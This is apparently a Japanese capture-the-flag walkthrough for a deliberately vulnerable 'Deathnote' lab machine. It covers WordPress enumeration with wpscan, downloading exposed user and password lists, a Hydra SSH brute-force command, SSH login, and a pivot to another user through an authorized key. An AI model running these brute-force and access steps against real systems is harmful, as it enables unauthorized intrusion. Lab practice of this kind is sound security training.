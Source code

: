 ### ポートスキャンまで同じ
- 22, 80

### wpscan
- `wpscan --url http://deathnote.vuln/wordpress/`
  - 表示にUpload directory has listing enabledと出るが、これはUploadファイルがディレクトリリスティングできることがわかる
  - `http://192.168.56.115/wordpress/wp-content/uploads`

### 興味深いURLにアクセスする
- `wget http://deathnote.vuln/wordpress/wp-content/uploads/2021/07/notes.txt`
- `wget http://deathnote.vuln/wordpress/wp-content/uploads/2021/07/user.txt`


## 攻略２
### Gobuster
- 特に何も見つからない,robots.txtくらい

### 画像ファイルを分析
- `robots.txt`に画像があるので、取得して中身を見る
- `wget http://deathnote.vuln/important.jpg`
- ファイルの中身を確認する
  - `file important.jpg`
- `cat important.jpg`
- ヒントがある

### Hydra
- 次のコマンドでsshのパスワードを見つける
  - `hydra -L user.txt -P notes.txt ssh://$IP -t 4`


### ssh
- 得られた認証情報を使って、sshにアクセスする
- `ssh l@$IP`


### lでシステム内を探索する
- kiraユーザになるために.sshディレクトリを検索する
- `cd /home/kira/.ssh`
- `cat authorized_keys`
  - これはlからkiraにアクセスできる公開鍵になっている
- 実際にlに暗号鍵があるか見てみる

### sshで公開鍵認証
- lで接続している状態で次のコマンドをする
- `ssh kira@localhost`

